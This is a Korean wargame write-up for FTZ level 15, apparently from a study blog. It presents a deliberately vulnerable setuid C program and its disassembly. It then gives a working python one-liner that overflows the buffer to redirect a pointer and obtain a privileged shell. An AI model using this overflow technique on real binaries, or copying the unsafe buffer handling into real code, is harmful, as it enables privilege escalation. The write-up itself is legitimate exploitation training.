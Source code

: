```yaml
---
sort: 15
---
```


# Level 15

```note
id : level15

password : guess what
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 조져보자.

```c
#include <stdio.h>
 
main()
{ int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
}
```

level14에서는 바로 값을 0xdeadbeef로 바꾸면 되었지만 level15에서는 0xdeadbeef가 위치한 주소값을 넣어야 한다.<br>
소스코드를 보면 `*check==0xdeadbeef`부분에 0xdeadbeef가 존재할 것으로 여겨진다.<br>
objdump를 이용하여 disassemble하면 기계어와 어셈블리어를 같이 보여준다.

<pre>
[level15@ftz level15]$ objdump -d ./attackme

08048490 <main>:
 8048490:	55                   	push   %ebp
 8048491:	89 e5                	mov    %esp,%ebp
 8048493:	83 ec 38             	sub    $0x38,%esp
 8048496:	83 ec 04             	sub    $0x4,%esp
 8048499:	ff 35 64 96 04 08    	pushl  0x8049664
 804849f:	6a 2d                	push   $0x2d
 <b>80484a1:	8d 45 c8             	lea    0xffffffc8(%ebp),%eax </b>
 80484a4:	50                   	push   %eax
 80484a5:	e8 b6 fe ff ff       	call   8048360 (_init+0x58)
 80484aa:	83 c4 10             	add    $0x10,%esp
 <b>80484ad:	8b 45 f0             	mov    0xfffffff0(%ebp),%eax </b>

 <b>80484b0:	81 38 ef be ad de    	cmpl   $0xdeadbeef,(%eax) </b>

 80484b6:	75 25                	jne    80484dd (main+0x4d)
 80484b8:	83 ec 08             	sub    $0x8,%esp
 80484bb:	68 18 0c 00 00       	push   $0xc18
 80484c0:	68 18 0c 00 00       	push   $0xc18
 80484c5:	e8 b6 fe ff ff       	call   8048380 (_init+0x78)
 80484ca:	83 c4 10             	add    $0x10,%esp
 80484cd:	83 ec 0c             	sub    $0xc,%esp
 80484d0:	68 48 85 04 08       	push   $0x8048548
 80484d5:	e8 66 fe ff ff       	call   8048340 (_init+0x38)
 80484da:	83 c4 10             	add    $0x10,%esp
 80484dd:	c9                   	leave  
 80484de:	c3                   	ret
</pre>

0x80484b2에 0xdeadbeef값이 존재하는 것을 확인할 수 있었다. 따라서 check에 0x80484b2를 넣으면 된다.

```bash
# padding 0x28 byte + 0x80484b2
[level15@ftz level15]$ (python -c "print('A'*0x28+'\xb2\x84\x04\x08\n')";cat) | ./attackme 
my-pass
```

```tip
## 알게 된 점

buffer overflow
```